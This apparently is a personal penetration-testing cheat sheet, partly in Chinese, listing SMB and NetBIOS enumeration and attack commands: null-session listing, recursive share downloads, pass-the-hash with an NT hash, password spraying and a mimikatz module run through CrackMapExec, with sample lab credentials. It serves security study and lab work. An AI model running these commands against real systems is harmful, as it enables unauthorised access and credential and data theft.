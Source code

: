 - NetBIOS服务监听TCP 139&UDP \*
- NBT --> NetBIOS over TCP
- SMB有空会话('':'') // 空密码(user:'')
# Nmap
```bash
ls -lsaht /usr/share/nmap/scripts | grep smb
nmap --script smb-* -p 139,445 172.21.0.0
nmap --script smb-enum-* -p 139,445 172.21.0.0
```
# enum4linux
```bash
enum4linux -a 172.21.0.0 #all
enum4linux -U 172.21.0.0 #userlist
enum4linux -r 172.21.0.0 #userlist via rid
enum4linux -S 172.21.0.0 #sharelist

enum4linux-ng -A 172.16.0.0 #All
```
## Specifiy Port
nftables rule实现指定不常见的SMB端口
```bash
table ip nat {
        chain output {
                type nat hook output priority filter + 1; policy accept;
                # replace 44139 with the port you would like the SMB via NetBIOS traffic to be redirected to
                tcp dport 139 redirect to :44139
        }
}
```
# smbmap
```bash
smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]
```
# smbclient
```bash
# mask ""
smbclient -L 172.21.0.0
smbclient \\\\x.x.x.x\\Folder # smbclient //x.x.x.x/tmp || '\\x.x.x.x\xx'
#下载所有
smbclient '//192.168.188.248/transfer' -N -c 'prompt OFF;recurse ON;mget *'
smbclient '//172.16.147.21/monitoring' -U relia/jim%'Castello1!' -c 'prompt OFF;recurse ON;mget *'
# 展示所有
smbclient '//192.168.188.248/transfer' -c 'recurse on;ls'
# pth
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

#Recursively list a directory
smb: \> recurse on             
smb: \> ls
```
# [[AD Authentication Attack#2. Use SMB to Spray [CrackMapExec](https //github.com/byt3bl33d3r/CrackMapExec)|CrackMapExec]]
```bash
#--pass-pol: 获取域密码政策; 
crackmapexec smb -L 
crackmapexec 172.21.0.0 -u Administrator -H [hash] --local-auth
crackmapexec 172.21.0.0 -u Administrator -H [hash] --shar

crackmapexec smb --gen-relay-list smb-targets.txt 172.21.0.0/24 #
crackmapexec smb 172.21.0.0/24 -u user -p 'Password' --local-auth -M mimikatz
crackmapexec smb x.x.x.x --pass-pol -u '' -p ''
```
